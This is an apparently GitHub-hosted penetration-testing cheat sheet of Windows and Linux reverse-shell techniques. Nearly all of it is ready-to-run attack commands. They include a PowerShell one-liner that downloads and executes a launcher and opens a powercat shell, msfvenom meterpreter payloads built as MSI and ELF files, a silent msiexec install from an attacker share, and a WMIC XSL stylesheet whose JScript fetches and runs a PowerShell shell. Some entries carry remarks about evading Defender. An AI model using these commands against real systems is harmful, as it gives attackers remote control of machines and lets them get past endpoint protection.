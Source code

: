 ### Empire
+ detected as malicious code
+ [git empire](https://github.com/EmpireProject/Empire)

```bash
# Create a powershell launcher, save it in a file and download and execute it.
powershell -exec bypass -c "iwr('http://10.2.0.5/launcher.ps1')|iex;powercat -c 10.2.0.5 -p 4444 -e cmd"
```

## MSIExec

```bash
# kali
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.2.0.5 lport=1234 -f msi > shell.msi
python -m SimpleHTTPServer 80

# target
msiexec /quiet /i \\10.2.0.5\kali\shell.msi
```

## WMIC
Not detected by defender

```bash
wmic os get /format:"https://webserver/payload.xsl"

# example xsl file
<?xml version='1.0'?>
<stylesheet xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt" xmlns:user="placeholder" version="1.0">
<output method="text"/>
    <ms:script implements-prefix="user" language="JScript">
        <![CDATA[
            var r = new ActiveXObject("WScript.Shell").Run("cmd.exe /c echo IEX(New-Object Net.WebClient).DownloadString('http://10.2.0.5/shell.ps1') | powershell -noprofile -");
        ]]>
    </ms:script>
</stylesheet>
```


# Linux Reverse shell

online reverse shell [revshell](https://www.revshells.com/)

## Binary

### meterpreter
```
#-staged
//x86
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=443 -f elf > shell.elf

//x64
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf

#-Non-staged
//x86
msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf

//x64
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```